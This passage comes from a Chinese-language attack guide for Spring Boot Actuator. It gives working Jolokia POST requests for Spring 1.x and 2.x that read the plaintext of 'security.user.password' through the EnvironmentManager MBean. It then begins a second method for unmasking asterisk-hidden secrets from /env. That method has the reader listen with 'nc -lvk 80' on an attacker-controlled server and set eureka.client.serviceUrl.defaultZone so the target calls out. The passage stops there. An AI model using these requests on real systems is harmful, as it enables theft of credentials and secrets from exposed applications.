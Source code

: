 

- 调用 `org.springframework.cloud.context.environment` Mbean（**需要 spring cloud 相关依赖**）


> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



### 0x04：获取被星号脱敏的密码的明文 (方法二)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 可以 GET 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```



##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性
